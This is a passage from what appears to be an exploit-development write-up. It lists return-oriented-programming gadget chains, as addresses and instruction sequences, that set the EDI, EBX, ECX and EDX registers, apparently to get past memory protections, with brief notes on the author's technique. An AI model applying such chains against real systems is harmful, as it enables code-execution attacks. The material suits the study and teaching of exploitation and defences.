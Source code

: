 ### EDI
```
0x10064def: pop edi; ret;
0x10040826:  ret; 
```

### EBX
```
0x10064def: pop edi; ret;
0x10040826:  ret; 
0x100430c7: pop ebx; ret;
0xFFFFFFFF
0x101260ab: inc ebx; add al, 0x50; call edi;
0x101260ab: inc ebx; add al, 0x50; call edi;
```

### ECX
As we cant just directly pop 0x40 into the register I found a chain that will increment it by 0x10.
```
0x10041e60: xor ecx, ecx; cmp eax, 1; sete cl; mov eax, ecx; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;
0x100fd644: pop eax; ret;
0x90909090
0x10157580: add ecx, 0x10; cmp eax, 0x28; jb 0x15757b; xor eax, eax; ret;

```

### EDX
This was annoying to set up, but it was easy once I found the `mov edx, eax; sar edx, 8;` gadget.
```
0x10043c28: pop ecx; ret;
0x1020f040 # writeable addr
0x100fd644: pop eax; ret;
0xFFFF0FFF
0x10060ec8: inc eax; ret;
0x10142f9d: mov edx, eax; mov byte ptr [ecx + 5], al; sar edx, 8; mov byte ptr [ecx + 4], dl; ret;
0x10154f1a: sar edx, 8; mov byte ptr [eax], dl; ret;
```


## Reorder gadgets
The edx, ecx and esi chains are messy so there is a high chance they will break previously set registers.
